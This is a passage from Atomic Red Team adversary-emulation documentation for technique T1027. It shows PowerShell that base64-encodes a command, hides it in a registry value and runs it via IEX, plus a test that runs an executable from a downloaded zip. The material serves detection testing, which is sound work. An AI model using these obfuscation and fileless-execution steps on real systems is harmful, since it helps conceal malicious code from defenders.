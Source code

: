 #### Attack Commands: Run with `powershell`!

```powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```

<br/>
<br/>

## Atomic Test #4 - Execution from Compressed File

Mimic execution of compressed executable. When successfully executed, calculator.exe will open.

**Supported Platforms:** Windows

**auto_generated_guid:** f8c8a909-5f29-49ac-9244-413936ce6d1f

#### Inputs:

| Name     | Description         | Type | Default Value                                                                         |
| -------- | ------------------- | ---- | ------------------------------------------------------------------------------------- |
| url_path | url to download Exe | url  | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1027/bin/T1027.zip |

#### Attack Commands: Run with `command_prompt`!

```cmd
"PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\T1027.exe"
```

#### Cleanup Commands:

```cmd
taskkill /f /im calculator.exe >nul 2>nul
taskkill /f /im CalculatorApp.exe >nul 2>nul
```

#### Dependencies: Run with `powershell`!

##### Description: T1027.exe must exist on disk at PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\T1027.exe
